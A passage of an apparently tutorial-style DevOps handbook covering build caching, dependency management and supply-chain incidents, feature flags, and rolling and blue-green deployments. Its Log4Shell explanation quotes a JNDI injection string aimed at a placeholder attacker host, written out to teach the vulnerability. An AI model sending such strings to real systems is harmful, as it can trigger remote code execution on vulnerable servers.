    Key --> Check{"Cache exists<br/>for this key?"}
    Check -->|"Hit"| Restore["Restore ~/.npm<br/>takes seconds"]
    Check -->|"Miss"| Download["npm ci downloads everything<br/>takes minutes"]
    Restore --> FastInstall["npm ci uses local copies<br/>takes seconds"]
    Download --> Save["Save ~/.npm under the key<br/>at the end of the job"]
    FastInstall --> Tests["Run tests"]
    Save --> Tests
```

What happens to Docker layers when you only edit a source file (good Dockerfile below):

```mermaid
flowchart TD
    L1["FROM node:20-alpine<br/>CACHED"] --> L2["COPY package*.json<br/>CACHED"]
    L2 --> L3["RUN npm ci<br/>CACHED, saves minutes"]
    L3 --> L4["COPY . .<br/>REBUILT because code changed"]
    L4 --> L5["CMD<br/>REBUILT"]
```

**💻 Example:**

Bad vs good Dockerfile ordering (comments on their own lines, as Dockerfiles require):

```dockerfile
# BAD: copying ALL code first means any code edit invalidates the npm ci layer,
# so every build re-downloads every package.
FROM node:20-alpine
WORKDIR /app
COPY . .
RUN npm ci
CMD ["node", "server.js"]
```

```dockerfile
# GOOD: the dependency list changes rarely, so 'npm ci' stays cached.
FROM node:20-alpine
WORKDIR /app
COPY package*.json ./
RUN npm ci
# Source code changes often: only this layer and the ones after it rebuild
COPY . .
CMD ["node", "server.js"]
```

GitHub Actions: cache npm downloads keyed on the lockfile hash, and cache Docker layers in the GitHub Actions cache.

```yaml
steps:
  - uses: actions/checkout@v4
  - uses: actions/cache@v4
    with:
      path: ~/.npm
      # New key whenever package-lock.json changes -> automatic invalidation
      key: ${{ runner.os }}-npm-${{ hashFiles('**/package-lock.json') }}
      # Fallback: on a miss, start from the most recent npm cache for this OS
      restore-keys: |
        ${{ runner.os }}-npm-
  - run: npm ci

  - uses: docker/setup-buildx-action@v3
  - uses: docker/build-push-action@v6
    with:
      push: false
      tags: web:${{ github.sha }}
      cache-from: type=gha            # reuse layers from previous runs
      cache-to: type=gha,mode=max     # save all layers for next time
```

Remote build caches for bigger codebases:

```bash
# Bazel: share build outputs through a remote cache server
bazel build //... --remote_cache=grpcs://cache.example.com

# Gradle: reuse task outputs from earlier builds
./gradlew build --build-cache

# Turborepo: link a remote cache so CI and teammates share results
npx turbo login && npx turbo link
npx turbo run build test      # tasks whose inputs did not change are replayed from cache
```

**🌍 Real-world usage:** Bazel is the open-source version of Blaze, the build system Google uses for its giant monorepo. Remote caching and remote execution are what make building there practical. Uber has written about using Bazel for its large Go monorepo. Turborepo (owned by Vercel) and Nx are popular for JavaScript/TypeScript monorepos, and Gradle's build cache is common in Java and Android projects. GitHub Actions, GitLab CI and CircleCI all have built-in caching features. Each GitHub repository gets limited cache storage (10 GB by default), and entries unused for about a week are evicted.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Much faster pipelines and local builds | Wrong cache keys cause stale, confusing builds |
| Fewer downloads, so less dependence on package registries being up | Caches use storage and have size limits |
| Lower CI costs | Remote caches are another service to secure and run |
| Faster feedback means smaller, safer changes | Needs hermetic, deterministic builds to work well |

**⚠️ Common mistakes:**
- **Bad Dockerfile ordering** (`COPY . .` before installing dependencies), which throws away the most valuable layer on every commit.
- **Cache keys that miss inputs**, e.g., not including the OS or language version, then restoring Linux binaries built for a different Node version.
- **Caching `node_modules` directly** across different OS/Node versions instead of caching the package manager's download folder.
- **Non-hermetic steps** like `curl .../latest.tar.gz` or embedding timestamps, so caches never hit, or hit with the wrong content.
- **Never testing a clean build.** Run an uncached build regularly so you notice when the cache is hiding a broken setup.

**🎯 Remember:** A cache is only as correct as its key. Hash the inputs (like the lockfile), order Docker layers from least to most frequently changing, and keep builds hermetic.

**🔗 See also:** [#74 CI/CD](#74-cicd), [#69 Docker](#69-docker), [#76 Dependency Hell](#76-dependency-hell)

---

### 76. Dependency Hell

> **In one line:** Dependency hell is the mess that happens when the libraries your code uses (and the libraries *they* use) clash, break, disappear, or turn out to be dangerous.

**🏠 Real-life analogy:** A restaurant buys sauce from Supplier A and bread from Supplier B. Both of them buy salt from the same salt company, but A insists on the old salt and B needs the new one. One day the sauce supplier quietly changes its recipe. Another day a supplier goes out of business. Worst of all, a supplier's supplier gets contaminated, and nobody even knew that company was in the chain. Your app's libraries form exactly this kind of supply chain.

**❓ What problem does it solve?** Modern apps are built mostly from other people's code. A Node app with 20 libraries you chose can easily pull in hundreds more behind the scenes. Without managing this:
- Two libraries need **incompatible versions** of the same third library, and the app won't install or crashes.
- The build **changes by itself**: same code, different result next week, because a dependency released a new version.
- A dependency **disappears** from the registry, and every build fails.
- A dependency has a **security hole** or is **deliberately poisoned** (a supply-chain attack).

**⚙️ How it works:**
1. **Direct dependencies** are the libraries you list yourself (in `package.json`, `requirements.txt`/`pyproject.toml`, `go.mod`). **Transitive dependencies** are the libraries *those* libraries need, and so on down the tree. Most of your code's dependencies are transitive.
2. **Semantic versioning (semver):** versions look like `MAJOR.MINOR.PATCH`, e.g., `4.19.2`. PATCH = bug fixes, MINOR = new features that are backward compatible, MAJOR = breaking changes. **Ranges** let a package accept compatible newer versions:

| Range | Meaning | For 1.4.2 it allows |
|---|---|---|
| `1.4.2` | Exactly this version | Only 1.4.2 |
| `~1.4.2` | Patch updates only | 1.4.3, 1.4.9 (not 1.5.0) |
| `^1.4.2` | Minor + patch updates (npm's default) | 1.5.0, 1.9.9 (not 2.0.0) |
| `*` or `latest` | Anything | 2.0.0, 7.0.0: dangerous |

Semver is a **promise made by humans**, so a "minor" update can still break you.
3. **Diamond dependency conflict:** your app uses library A and library B. A needs library C v1, B needs C v2. Many ecosystems (Python, Java's classpath) can load only **one** version of C, so one of A or B may break. npm can install two copies side by side (bigger installs, and some libraries, like React, break if duplicated). Maven resolves it by picking the version "nearest" to your app in the tree, which may not be the one a library needs.
4. **Lockfiles:** a lockfile records the **exact** version (and a checksum hash) of every package, direct and transitive: `package-lock.json` (npm), `yarn.lock`, `poetry.lock` (Poetry), `Cargo.lock` (Rust). In Go, `go.mod` lists versions and `go.sum` stores checksums so downloads can't be silently swapped. Commit the lockfile, and install with `npm ci` / `poetry install` to get **reproducible builds**: the same inputs give the same result on every machine, today and next year.
5. **Supply-chain incidents everyone should know:**
   - **left-pad (March 2016):** after a dispute over a package name, a developer unpublished all of his 250+ npm packages. One, **left-pad**, was just 11 lines that pad a string on the left, but thousands of projects depended on it transitively, including popular tools like Babel. Builds around the world failed. npm restored it within hours and changed its rules so widely used packages can't simply be unpublished.
   - **event-stream (2018):** the maintainer of event-stream, a very popular npm package, handed it over to a volunteer who offered help. The new maintainer added a dependency, `flatmap-stream`, with hidden malicious code that targeted the Copay Bitcoin wallet app to steal funds. It went unnoticed for weeks.
   - **Log4Shell (December 2021, CVE-2021-44228):** a critical flaw in **Log4j 2**, an extremely common Java logging library. If an app logged a crafted string like `${jndi:ldap://attacker.example/x}`, the server could be tricked into loading and running the attacker's code. It received the maximum severity score (10.0). Many companies didn't know they used Log4j at all, because it came in **transitively**, inside other libraries and products. Just *finding* it was the hardest part.
6. **Tools:**
   - **Dependabot** (built into GitHub) and **Renovate** automatically open pull requests to update dependencies.
   - **npm audit**, **pip-audit**, **Snyk**, OWASP Dependency-Check and `govulncheck` (Go) check your dependencies against databases of known vulnerabilities.
   - An **SBOM** (Software Bill of Materials) is an "ingredients list" of every component in your software, in standard formats like SPDX or CycloneDX. Tools like Syft generate one. With SBOMs, "Are we affected by Log4Shell?" becomes a search instead of a week of panic.
7. **Practices:**
   - **Pin** versions with a committed lockfile, and install with `npm ci` in CI.
   - **Update regularly in small steps** (e.g., weekly automated PRs that run the full test suite) instead of one terrifying upgrade every two years.
   - **Minimize dependencies:** don't add a package for something tiny. JavaScript has had a built-in `padStart` since ES2017.
   - **Vendor when needed:** copy dependencies into your repo (`go mod vendor`) or use an internal package mirror (Artifactory, Nexus) so builds don't depend on a public registry being up.
   - **Check new dependencies** before adding them: maintainers, activity, downloads, and the exact spelling. **Typosquatting** packages with names like `reqeusts` exist to catch typos.

```mermaid
flowchart TD
    App["Your App"] --> A["Library A"]
    App --> B["Library B"]
    A -->|"requires"| C1["Library C v1.x"]
    B -->|"requires"| C2["Library C v2.x"]
    C1 -.-> Conflict{"Only one version of C<br/>can be installed. Which one?"}
    C2 -.-> Conflict
```

```mermaid
flowchart LR
    Manifest["package.json<br/>ranges like ^4.19.2"] --> Resolve["npm install<br/>picks exact versions"]
    Resolve --> Lock["package-lock.json<br/>exact versions + hashes"]
    Lock --> Git["Committed to Git"]
    Git --> CI["CI runs npm ci<br/>installs exactly the lockfile"]
    Bot["Dependabot or Renovate"] -->|"small, tested update PRs"| Git
    CI --> Audit["npm audit / SBOM scan"]
```

**💻 Example:**

Version ranges in `package.json` (the lockfile then freezes the exact versions picked):

```json
{
  "dependencies": {
    "express": "^4.19.2",
    "pg": "~8.11.3",
    "uuid": "9.0.1"
  }
}
```

Investigating and checking dependencies:

```bash
npm ls --all              # the whole tree: direct + transitive
npm explain qs            # "why is this package installed?" (qs comes in via express)
npm ci                    # install EXACTLY what package-lock.json says (use in CI)
npm outdated              # which packages have newer versions?
npm audit                 # known vulnerabilities in the tree

pip-audit                 # the same check for a Python environment
poetry lock && poetry install   # Python: resolve, write poetry.lock, install from it
go mod tidy && go mod verify    # Go: clean up go.mod, verify downloads match go.sum
syft . -o cyclonedx-json > sbom.json   # generate an SBOM for this project
```

Automated, small, regular updates with Dependabot:

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: "npm"
    directory: "/"
    schedule:
      interval: "weekly"
    groups:
      minor-and-patch:              # bundle low-risk updates into one PR
        update-types: ["minor", "patch"]
```

**🌍 Real-world usage:** GitHub's Dependabot opens update and security PRs for millions of repositories, and Renovate is popular for its fine-grained rules and monorepo support. After left-pad, npm changed its unpublish policy. After Log4Shell and other supply-chain attacks, the US government's 2021 cybersecurity executive order pushed SBOMs into the mainstream, and many companies now require an SBOM for the software they buy. Large companies often route all package downloads through an internal mirror so they can block bad versions and survive registry outages.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Loose ranges, no lockfile | Never for apps | Builds change by themselves; impossible to reproduce |
| Ranges + committed lockfile | Default for apps and services | Must actively update, or you fall behind on fixes |
| Exact pins everywhere | Critical systems, published CLI tools | More update work; libraries that pin too tightly cause conflicts for their users |
| Vendoring or an internal mirror | Strict security, offline or air-gapped builds | Bigger repo or extra infrastructure; updates are manual |

**⚠️ Common mistakes:**
- **Not committing the lockfile**, or using `npm install` in CI instead of `npm ci`, so CI tests different versions than your laptop.
- **Ignoring update PRs for months**, then facing a huge, risky jump across several major versions when a security fix is urgent.
- **Adding a package for a one-liner**, which grows your attack surface and transitive tree for no real benefit.
- **Running `npm audit fix --force` blindly.** It can install breaking major versions. Read what it changes and run the tests.
- **Assuming "popular" means "safe".** event-stream and Log4j were both hugely popular. Scan, monitor and keep an SBOM.

**🎯 Remember:** Most of your code is other people's code. Lock it (lockfiles), know it (SBOM, audits), and update it in small, tested steps.

**🔗 See also:** [#75 Build Caching](#75-build-caching), [#74 CI/CD](#74-cicd), [#69 Docker](#69-docker)

---

### 🧠 Part 11 Quiz

**Q1. Containers vs virtual machines: what's the key difference, and why do containers start so much faster?**
<details><summary>Show answer</summary>

A VM includes a whole guest operating system with its own kernel, running on a hypervisor. A container is just an isolated process (using Linux namespaces and cgroups) that shares the host's kernel. There's no OS to boot, so containers start in about a second and are much smaller. The cost is weaker isolation than a VM.

</details>

**Q2. A worker node running 2 of your 3 web Pods suddenly dies at 3 a.m. What does Kubernetes do?**
<details><summary>Show answer</summary>

The node stops sending heartbeats and is marked NotReady, and after a grace period its Pods are evicted. The ReplicaSet controller sees 1 running Pod instead of the desired 3 and creates 2 new ones. The scheduler places them on healthy nodes, their kubelets start them, and once they pass their readiness probes the Service sends them traffic. Nobody needs to be paged, because Kubernetes keeps reconciling actual state to desired state.

</details>

**Q3. Your Docker build re-downloads every npm package after even a one-line code change. What's wrong and how do you fix it?**
<details><summary>Show answer</summary>

The Dockerfile probably runs `COPY . .` before `RUN npm ci`, so any code change invalidates the install layer and every layer after it. Copy `package*.json` first, run `npm ci`, and only then `COPY . .`. In CI, also cache Docker layers (e.g., `cache-from: type=gha`) and the npm download folder keyed on the lockfile hash.

</details>

**Q4. Why should Terraform state be stored remotely with locking, and never committed to Git?**
<details><summary>Show answer</summary>

The state file is Terraform's memory of which real resources it manages. If it's lost or out of date, Terraform may try to create duplicates or destroy things. Remote state (e.g., S3 or HCP Terraform) lets the whole team share one copy, and locking stops two applies from corrupting it. It must stay out of Git because it often contains secrets in plain text.

</details>

**Q5. A critical vulnerability like Log4Shell is announced. Your team says "we don't use Log4j". Why might that be wrong, and how do you find out quickly?**
<details><summary>Show answer</summary>

You may not use it *directly*, but it can arrive as a transitive dependency inside another library or product. Check the full dependency tree (lockfiles, `mvn dependency:tree`, `npm ls`), run vulnerability scanners (Snyk, Dependabot alerts, OWASP Dependency-Check), and search your SBOMs. With SBOMs in place, the answer is a quick search instead of days of guessing.

</details>


## Part 12 — Release Strategies

Writing new code is only half the job. The other half is getting it to users **safely**. Two words matter here: to **deploy** is to install a new version of your code on your servers, and to **release** is to let users actually experience the new behavior. Google's SRE book notes that roughly 70% of outages are caused by changes to a live system, so *how* you ship (slowly, while watching, with an easy way back) matters as much as *what* you ship.

| | Deploy | Release |
|---|---|---|
| What happens | New code is copied onto servers and started | Users start seeing the new feature or behavior |
| Who notices | Ideally nobody | Users |
| Typical tools | CI/CD pipeline, Kubernetes, rolling / blue-green / canary | Feature flags, traffic routing |

```mermaid
flowchart LR
    Code["New code merged"] --> Deploy["Deploy<br/>(code on servers)"]
    Deploy --> Release["Release<br/>(users see it)"]
    Deploy --> Rolling["Rolling Deployments (78)"]
    Deploy --> BlueGreen["Blue-Green (79)"]
    Deploy --> Canary["Canary Releases (80)"]
    Release --> Flags["Feature Flags (77)"]
    Rolling --> Rollback["Rollbacks (81)"]
    BlueGreen --> Rollback
    Canary --> Rollback
    Flags --> Rollback
```

---

### 77. Feature Flags

> **In one line:** A feature flag is an on/off switch inside your code that lets you turn a feature on or off for some or all users, without shipping new code.

**🏠 Real-life analogy:** An electrician installs a new ceiling lamp while you are at work. The wires are in and the lamp is up (that is the *deploy*), but the light switch is still **off**. When you get home, *you* decide when to flip the switch (that is the *release*). Maybe you try it in one room first. If the lamp flickers, you just flip it off. You don't need to call the electrician back to rip the wires out.

**❓ What problem does it solve?**
Without flags, **deploy = release**. The moment code reaches the servers, every user gets it. That causes problems:
- **Big-bang launches:** if the new feature is broken, *everyone* sees it, and the only fix is another deploy or a rollback (minutes to hours).
- **Long-lived branches:** a big feature sits on a separate Git branch for weeks and becomes painful to merge. With flags, unfinished code can be merged to `main` every day, hidden behind an "off" flag. This is called **trunk-based development**.
- **No gradual testing:** you can't try a feature on 1% of users, or only on employees, or run an A/B test (show version A to some users and version B to others, then compare).
- **No emergency brake:** during an incident you can't quickly switch off an expensive feature (like recommendations) to save the database.

**⚙️ How it works:**
1. You wrap the new code in a check: `if flags.is_enabled("new_checkout", user): ...`.
2. The **rules** for the flag live *outside* your code, in a flag service or config file with a dashboard.
3. A small library in your app (the **SDK**) downloads the rules, keeps them in memory, and evaluates flags **locally** in microseconds. When someone changes a rule, the service pushes (streams) or the SDK polls the update within seconds.
4. Rules can say: on/off for everyone, on for a **target list** (employees, beta testers, one country, one customer), or on for a **percentage** of users.
5. Changing a rule in the dashboard changes behavior in production in seconds, with **no deploy**.

**Types of flags** (categories popularized by Pete Hodgson's "Feature Toggles" article on Martin Fowler's site):

| Type | Purpose | How long it lives | Example | Who flips it |
|---|---|---|---|---|
| Release toggle | Hide unfinished or new features, then roll them out gradually | Days to weeks, then **delete it** | New checkout page | Engineers / product |
| Experiment (A/B) toggle | Show variant A vs B and measure which one wins | Length of the experiment | Green vs blue "Buy" button | Product / data team |
| Ops toggle (kill switch) | Turn off a risky or expensive feature fast during trouble | Can live for a long time | Disable recommendations when the DB is overloaded | On-call engineers |
| Permission / entitlement toggle | Give features only to certain customers or plans | Long-lived (years) | "Advanced analytics" only on the Enterprise plan | Billing / sales systems |

**Percentage rollouts with stable hashing.** Say you want the new checkout for 10% of users. If you used `random()` on every request, the same user would see the new page on one click and the old page on the next. That is confusing, and it ruins experiments. Instead, you **hash** (turn into a fixed-looking number) the user id together with the flag name, and map it to a "bucket" from 0 to 99. If the bucket is below 10, the user is in.
- The same user always lands in the same bucket, on every server, every time.
- Going from 10% to 25% keeps the original 10% included (a bucket below 10 is also below 25), so nobody flips back and forth.
- Mixing the **flag name** into the hash means each flag picks a *different* 10% of users, so the same unlucky people are not the guinea pigs for every new feature.

**Flag debt and cleanup.** Every flag doubles the number of possible code paths: 10 flags means up to 1,024 combinations, most of them never tested. Old flags become "flag debt" (leftover clutter that makes code risky to change). Good habits:
- Give every flag an **owner** and an **expiry date**, and open a cleanup ticket when you create it.
- Once a release flag has been at 100% for a week or two, **delete the flag and the old code path**.
- **Never reuse** an old flag name for a new purpose (see Knight Capital below).
- Use tooling that finds stale flags (most flag products show flags not evaluated recently; Uber open-sourced **Piranha**, a tool that automatically removes code for stale flags).

```mermaid
flowchart TD
    Req["Request from user 42"] --> SDK["Flag SDK inside your app<br/>(rules cached in memory)"]
    SDK --> Global{"Is the flag<br/>turned on at all?"}
    Global -->|"no"| OldPath["Old code path"]
    Global -->|"yes"| Target{"Is the user on a<br/>target list?<br/>(staff, beta testers)"}
    Target -->|"yes"| NewPath["New code path"]
    Target -->|"no"| Hash{"hash(flag + user) % 100<br/>below rollout %?"}
    Hash -->|"yes"| NewPath
    Hash -->|"no"| OldPath
    Dash["Flag dashboard<br/>(LaunchDarkly, Unleash...)"] -.->|"rule changes pushed in seconds"| SDK
```

**💻 Example:**
A tiny feature-flag evaluator with stable percentage rollouts in Python:

```python
import hashlib

def bucket(flag_key: str, user_id: str) -> int:
    """Map (flag, user) to a stable number from 0 to 99."""
    raw = f"{flag_key}:{user_id}".encode()
    digest = hashlib.sha256(raw).hexdigest()
    return int(digest[:8], 16) % 100        # first 32 bits of the hash -> 0..99

def is_enabled(flag: dict, user_id: str) -> bool:
    if not flag["on"]:                       # kill switch beats every other rule
        return False
    if user_id in flag["allow_users"]:       # staff and beta testers always get it
        return True
    return bucket(flag["key"], user_id) < flag["percent"]

new_checkout = {"key": "new_checkout", "on": True,
                "allow_users": {"alice"}, "percent": 10}

for uid in ["alice", "user-1", "user-2", "user-3"]:
    # Same answer on every call and on every server
    print(uid, is_enabled(new_checkout, uid))
```

Note: we use `hashlib`, not Python's built-in `hash()`. For strings, `hash()` is randomized per process, so two servers would put the same user in different buckets.

In real apps you'd use a vendor SDK. **OpenFeature** is a vendor-neutral standard API, so your code doesn't change if you switch flag vendors (Node.js):

```js
import { OpenFeature } from '@openfeature/server-sdk';

// At startup, plug in a provider for your vendor (LaunchDarkly, Flagsmith, Unleash, ...)
// await OpenFeature.setProviderAndWait(new SomeVendorProvider({ /* settings */ }));
const flags = OpenFeature.getClient();

async function checkoutHandler(req, res) {
  // 'false' is the safe default if the flag service can't be reached
  const useNew = await flags.getBooleanValue('new_checkout', false, { targetingKey: req.user.id });
  return useNew ? renderNewCheckout(req, res) : renderOldCheckout(req, res);
}
```

**🌍 Real-world usage:**
- **Tools:** **LaunchDarkly** (popular paid service), **Unleash** and **Flagsmith** (open source, can self-host), **Split** (flags plus experimentation), and cloud options like AWS AppConfig. **OpenFeature** (a CNCF project) is the open standard API that sits in front of all of them.
- Big tech has used flags for years: Facebook's internal "Gatekeeper" system controls who sees which features, and GitHub has written about shipping features behind flags and turning them on for staff first.
- **Cautionary tale — Knight Capital (1 August 2012):** Knight, a major US stock-trading firm, deployed new trading code for a new NYSE program. The deploy was manual, and the new code reached only **7 of its 8 servers**. The new code also **reused an old flag** that years earlier had switched on "Power Peg", a retired function whose dead code was still sitting on the servers. When orders arrived with the flag set, the 8th server (still running the old code) ran Power Peg and flooded the market with millions of unintended orders. In roughly **45 minutes** Knight lost about **$440 million**; the firm needed an emergency rescue and was later acquired. Lessons: automate and verify deploys, delete dead code and old flags, never repurpose a flag, and have a real kill switch.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Release separately from deploy; turn features off in seconds | More code paths to test; flag debt if not cleaned up |
| Gradual rollouts, targeting, A/B tests | Flag service becomes a dependency (needs safe defaults and local caching) |
| Lets teams merge to `main` daily (trunk-based development) | Mistakes in flag rules are "config changes" that can break production too |
| Kill switches for incidents | Can't undo irreversible things (DB migrations, emails already sent) |

**⚠️ Common mistakes:**
- **Reusing an old flag name** for a new purpose, like Knight Capital did.
- **Never deleting flags**, so the code fills with dead branches and untested combinations.
- Using `random()` instead of **stable hashing**, so users flip between old and new behavior.
- Calling the flag service **over the network on every request**: slow, and a new single point of failure. Use the SDK's in-memory cache and a safe default value.
- Assuming "flag off" undoes everything: it can't reverse a schema change or data the new code already wrote.

**🎯 Remember:** Deploy = moving code onto servers; release = flipping the switch for users. Feature flags let you do them separately, roll out by percentage, and switch off a bad feature in seconds — but every flag must eventually be deleted.

**🔗 See also:** [#78 Rolling Deployments](#78-rolling-deployments), [#80 Canary Releases](#80-canary-releases), [#81 Rollbacks](#81-rollbacks)

---


### 78. Rolling Deployments

> **In one line:** A rolling deployment swaps old copies of your app for new ones a few at a time, so the app never fully goes down.

**🏠 Real-life analogy:** A hotel wants to renovate all its rooms but can't close. So it renovates **one floor at a time**. Guests keep checking in; a few rooms are closed at any moment. For a while, some guests sleep in new rooms and some in old rooms, so the **same key cards must open both kinds of doors**. That last part is the key lesson of rolling deployments: old and new must work side by side.

**❓ What problem does it solve?**
The simplest way to deploy is **Recreate**: stop every old copy, then start every new copy. That causes:
- **Downtime:** between "all stopped" and "new ones ready", users get errors.
- **All-or-nothing risk:** if the new version crashes on start, *everything* is down.

Rolling deployments give you **zero downtime** without needing a second full copy of your infrastructure: you only need a little spare room for one or two extra instances (copies of your app running on servers or in containers).

**⚙️ How it works:**
1. You run **N instances** behind a load balancer (the traffic cop that spreads requests across instances).
2. Start **one new v2 instance** (or take one v1 out of service first).
3. Wait until v2 passes its **readiness probe** (a health check meaning "I've started and I'm ready for traffic").
4. The load balancer starts sending traffic to v2. One v1 instance is **drained** (allowed to finish the requests it is already handling) and then stopped.
5. Repeat until every instance runs v2.
6. If new instances keep failing their health checks, the rollout **stalls** instead of continuing. You then pause it or undo it.

**Kubernetes settings** (Kubernetes is the most popular system for running containers; a *pod* is one running copy of your app there):
- `maxSurge`: how many **extra** pods above the desired count may exist during the rollout. Higher = faster, but needs spare capacity.
- `maxUnavailable`: how many pods **below** the desired count are allowed. Higher = faster, but less capacity during the rollout.
- Both default to **25%**. The safest setting is `maxSurge: 1, maxUnavailable: 0`: you never drop below full capacity.
- `minReadySeconds`: a new pod must stay ready this long before it counts as available (catches pods that crash right after starting).

**Old and new run at the same time, so you need backward compatibility.** A rollout can take minutes or hours, and one user's requests may hit v1, then v2, then v1 again:
- **APIs:** v2 must accept requests that old clients send; v1 must not break on new fields that v2 adds. Add fields; don't rename or remove them in the same release.
- **Database schema:** both versions use the **same database**. If v2 renames a column, every v1 pod breaks instantly. Use the *expand/contract* pattern (see #81).
- **Messages and caches:** if v2 writes a new JSON format into a queue or cache, v1 workers must still be able to read it (or ignore it safely).
- **Sessions:** if login sessions live in one server's memory, users get logged out as pods are replaced. Store sessions in a shared store such as Redis.

```mermaid
flowchart LR
    S0["Start<br/>v1 v1 v1 v1"] -->|"replace 1"| S1["Step 1<br/>v2 v1 v1 v1"]
    S1 -->|"replace 1"| S2["Step 2<br/>v2 v2 v1 v1"]
    S2 -->|"replace 1"| S3["Step 3<br/>v2 v2 v2 v1"]
    S3 -->|"replace 1"| S4["Done<br/>v2 v2 v2 v2"]
```

What happens inside **one** step:

```mermaid
sequenceDiagram
    participant K as Kubernetes
    participant NewPod as New pod v2
    participant LB as Service or load balancer
    participant OldPod as Old pod v1
    K->>NewPod: Start container
    K->>NewPod: Readiness probe GET /healthz
    NewPod-->>K: 200 OK, ready
    K->>LB: Add v2 pod to the pool
    K->>LB: Remove one v1 pod from the pool
    K->>OldPod: SIGTERM, finish in-flight requests
    OldPod-->>K: Exited cleanly
    Note over K,OldPod: Repeat until every pod runs v2
```

**💻 Example:**
A Kubernetes Deployment that rolls out safely, one pod at a time, never dropping below 4 ready pods:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: checkout
spec:
  replicas: 4
  minReadySeconds: 10            # a new pod must stay ready 10s before it counts
  selector:
    matchLabels:
      app: checkout
  strategy:
    type: RollingUpdate
    rollingUpdate:
      maxSurge: 1                # at most 1 extra pod (5 total) during the rollout
      maxUnavailable: 0          # never fewer than 4 ready pods
  template:
    metadata:
      labels:
        app: checkout
    spec:
      containers:
        - name: checkout
          image: registry.example.com/checkout:1.5.0   # change this tag to roll out
          readinessProbe:        # no traffic until this check passes
            httpGet:
              path: /healthz
              port: 8080
            periodSeconds: 5
```

Driving and undoing the rollout from the command line:

```bash
# Start a rollout by changing the image version
kubectl set image deployment/checkout checkout=registry.example.com/checkout:1.5.1

# Watch progress (waits until it finishes or fails)
kubectl rollout status deployment/checkout

# Pause halfway to look at dashboards, then continue
kubectl rollout pause deployment/checkout
kubectl rollout resume deployment/checkout

# Something is wrong? See history and go back
kubectl rollout history deployment/checkout
kubectl rollout undo deployment/checkout                   # to the previous version
kubectl rollout undo deployment/checkout --to-revision=3   # to a specific revision
```

**🌍 Real-world usage:** Rolling update is the **default** strategy for Kubernetes Deployments, so most teams on Kubernetes use it every day. AWS ECS does the same with its `minimumHealthyPercent` and `maximumPercent` settings, AWS Auto Scaling groups have "instance refresh", and HashiCorp Nomad and Elastic Beanstalk offer rolling updates too. It's the sensible default for stateless web services (services that keep no user data in their own memory or disk).

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Zero downtime when readiness probes are set up | Two versions run at once, so you need backward-compatible APIs and schemas |
| Needs only a little extra capacity (`maxSurge`) | Rollback is just another rolling deploy (minutes, not seconds) |
| Built into Kubernetes, ECS, etc., with almost no setup | No fine control over *which* users get v2; traffic share simply follows pod count |
| Bad pods that fail health checks stop the rollout | Health checks catch crashes, not wrong behavior; a logic bug can reach 100% of users |

**⚠️ Common mistakes:**
- **No readiness probe:** Kubernetes sends traffic to pods that are still booting, causing errors on every deploy.
- **High `maxUnavailable` with few replicas:** with 2 replicas, losing one halves your capacity during the rollout.
- **Breaking changes in one release:** renaming an API field or DB column while v1 pods are still running.
- **No graceful shutdown:** the app ignores `SIGTERM` (the polite "please stop" signal) and drops in-flight requests.
- **Using the `:latest` image tag:** you can't tell which version is running, and "undo" may not restore what you expect.

**🎯 Remember:** Rolling = replace a few at a time behind health checks. Zero downtime and cheap, but old and new run side by side, so every change must be backward compatible.

**🔗 See also:** [#79 Blue-Green Deployment](#79-blue-green-deployment), [#80 Canary Releases](#80-canary-releases), [#81 Rollbacks](#81-rollbacks)

---

### 79. Blue-Green Deployment

> **In one line:** Keep two identical copies of production; users use one (blue) while you prepare and test the other (green), then move all traffic to green in one flip.

**🏠 Real-life analogy:** A restaurant has **two identical kitchens**. Tonight's dinner is cooked in Kitchen Blue. Meanwhile, the chefs set up the new menu in Kitchen Green and taste-test it. At 7 pm, the head waiter simply starts sending all new orders to Green. If the food from Green is bad, he sends orders back to Blue right away: it's still staffed, warm, and ready.

**❓ What problem does it solve?**
- **Recreate** deploys have downtime. **Rolling** deploys mix versions and take minutes to undo.
- You want to **test the new version on real production infrastructure** *before* any user touches it.
- You want the switch to be **instant**, and the way back to be **instant** too. Without blue-green, "going back" means redeploying the old version while users suffer.

**⚙️ How it works:**
1. **Blue** is live (running v1). **Green** is an identical environment: same number of servers, same config, same network.
2. Deploy v2 to green. No users see it yet.
3. Run **smoke tests** on green (quick basic checks: does it start, can you log in, can you place a test order?) using a private URL or port.
4. **Flip the switch:** change the router so all new requests go to green. The router can be a load balancer, a Kubernetes Service, or DNS.
5. Keep blue **running and untouched** for a while (an hour, a day). Rollback = flip the switch back, in seconds.
6. When you're confident, blue becomes the target for the *next* release (the colors swap roles).

**Cost of double infrastructure.** During the switch you pay for two full environments. In the cloud you can reduce this by creating green only for the deploy and deleting blue after the confidence window, so you pay double for hours, not all month. Also **warm up** green first (fill caches, open database connections), or the first minutes after the switch will be slow.

**The database is the hard part.** Copying a database and keeping two copies in sync is very hard, so blue and green usually **share one database**. That means:
- The schema must work for **both v1 and v2 at the same time**. Otherwise, switching back to blue fails because blue no longer understands the database. Use expand/contract migrations (see #81).
- **Background workers and scheduled jobs** (queue consumers, cron jobs) must run in only *one* color, or be safe to run twice. Otherwise customers may get two emails or two charges.
- **Sessions** must live in a shared store (like Redis), not in server memory, or everyone gets logged out at the switch.

```mermaid
flowchart LR
    subgraph Before["Before the switch"]
        U1["Users"] --> R1["Router / Load Balancer"]
        R1 ==>|"100% of traffic"| B1["Blue: v1 (live)"]
        R1 -.->|"smoke tests only"| G1["Green: v2 (idle)"]
    end
    subgraph After["After the switch"]
        U2["Users"] --> R2["Router / Load Balancer"]
        R2 ==>|"100% of traffic"| G2["Green: v2 (live)"]
        R2 -.->|"kept warm for rollback"| B2["Blue: v1 (standby)"]
    end
```

Both colors usually share one database, which is the main design constraint:

```mermaid
flowchart TD
    LB["Load Balancer"] ==>|"live"| Blue["Blue environment: v1"]
    LB -.->|"after switch"| Green["Green environment: v2"]
    Blue --> DB[("Shared database<br/>schema must work for v1 AND v2")]
    Green --> DB
```

**💻 Example:**
In Kubernetes, a simple blue-green setup is two Deployments (`checkout-blue` and `checkout-green`, with pods labeled `color: blue` or `color: green`) plus one Service. The Service is the "switch": its `selector` decides which pods get traffic.

```yaml
apiVersion: v1
kind: Service
metadata:
  name: checkout              # users and other services always call 'checkout'
spec:
  selector:
    app: checkout
